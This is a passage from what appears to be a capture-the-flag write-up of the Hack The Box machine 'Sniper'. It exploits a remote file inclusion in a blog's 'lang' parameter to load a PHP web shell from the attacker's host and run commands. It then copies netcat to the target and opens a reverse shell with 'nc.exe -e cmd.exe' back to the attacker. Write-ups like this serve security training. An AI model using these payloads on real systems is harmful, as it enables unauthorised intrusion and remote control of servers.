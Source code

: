 Before trying to get RCE, I'll create an `info.php` file that calls `phpinfo()` so I can check for any disabled functions:

```php
<?php
phpinfo();
?>
```

After calling `phpinfo()` with `GET /blog/?lang=//10.10.14.11/test/info.php` I see that it's running Windows build 17763 and that no functions are disabled.

![](/assets/images/htb-writeup-sniper/info1.png)

![](/assets/images/htb-writeup-sniper/info2.png)

Next I'll create another PHP file to execute commands passed in the `cmd` parameter:

```php
<?php
system($_GET["cmd"]);
?>
```

And with the following request I can execute commands: `GET /blog/?lang=//10.10.14.11/test/nc.php&cmd=whoami`

![](/assets/images/htb-writeup-sniper/rce1.png)

To get a shell I'll upload netcat to the server with `GET /blog/?lang=//10.10.14.11/test/nc.php&cmd=copy+\\10.10.14.11\test\nc.exe+c:\programdata\nc.exe`

![](/assets/images/htb-writeup-sniper/rce2.png)

Then I execute netcat to get a shell with `GET /blog/?lang=//10.10.14.11/test/nc.php&cmd=c:\programdata\nc.exe+-e+cmd.exe+10.10.14.11+80`
